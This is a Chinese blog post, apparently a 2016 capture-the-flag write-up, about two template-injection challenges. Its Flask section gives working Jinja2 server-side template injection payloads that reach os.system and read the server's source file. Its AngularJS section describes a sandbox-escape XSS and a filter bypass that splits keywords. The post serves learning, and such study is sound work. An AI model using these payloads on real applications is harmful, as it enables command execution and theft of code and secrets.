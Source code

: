```yaml
---
id: 675
layout: post
title: 'sctf中的两道模板注入'
date: 2016-02-28 17:26:00
author: virusdefender
tags: 
---
```


FlagMan
-------

使用GitHub Oauth登录，然后页面上就可以显示你的GitHub头像、用户名、用户id。常见的思路都想过了，发现不行，后来看到登录页面有个隐藏的`Powered by Flask`，联想起最近的Jinjia2模板注入，应该是在GitHub的真实姓名的位置。

在 http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/ 有一个POC

{% raw %} 
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```
{% endraw %}

原理就是Jinjia2中可以访问空列表，然后`[].__class__.__base__`是`object`，`object`的`__subclasses__()`就是所有继承`object`的类，依次类推，找到了一个导入了os模块的，然后取出来使用。如果能找到其他模块中导入了os也行，但是没有再去找。


<!--more-->


但是发现网站是SAE的环境，不能执行命令，就决定读取一下代码看看，flag应该在里面。

为了简短代码，不用每次去去循环获取，就循环判断下索引

{% raw %} 
```python
{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {{ loop.index0 }}{% endif %} {% endfor %}
```
{% endraw %}

得到索引是59

循环查看所有的模块 

{% raw %}
```python
{% for i in range(0, 10) %} {{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.keys()[i] }} {% endfor %}
```
{% endraw %}

发现有`os`, `__file__`, `__builtins__`等，可以用open

但是要先知道当前文件名，所以

{% raw %}
```python
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].path.realpath(__file__) }}
```
{% endraw %}

得到文件名`/data1/www/htdocs/259/4083475a59f34e34/2/ssctf.py`，然后读文件

{% raw %}
```python
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['__builtins__'].open("/data1/www/htdocs/259/4083475a59f34e34/2/ssctf.py", "r").read() }}
```
{% endraw %}

其实上面读取文件也不需要全部的路径，直接使用`__file__`也行，一开始怕sae环境比较特殊。

这样就读了源代码，获取到了flag。

再看题目源码，发现模板内容写`{{ app.flag_man }}`就可以，虽然说和题目有点关系，flask中也经常使用app这个变量，但是一开始还是没想到。

![QQ20160229-1@2x.png][1]


xss
---

也是紧追潮流，是再早几天的AngularJS的模板注入。那时候看着英文版不错，还自己翻译了一部分，然后就发现360也出了翻译，还是基本能看的，就放弃了。。 文章在 http://bobao.360.cn/learning/detail/2597.html

第一步测试，发现将`<>`替换成了下划线，过滤了一些词，比如`eval`、`onxxx`等，直接使用关键词把关键词拆开就好了，比如`evevalal`，然后过滤后拼成了原来的关键词。

AngularJS模板注入的原理要比Jinjin2的复杂些，因为注入的代码并不能执行任意动作，因为AngularJS"沙箱"的存在，所以还是通过各种替换函数，将安全的函数替换成了危险函数来做的。其实对JS不是特别熟，文章也是看的一知半解的，不多说了。

![D6FEA12A-033D-4C03-BB15-B602192DC2FE.png][2]


  [1]: http://storage.virusdefender.net/blog/images/675/1.png
  [2]: http://storage.virusdefender.net/blog/images/675/2.png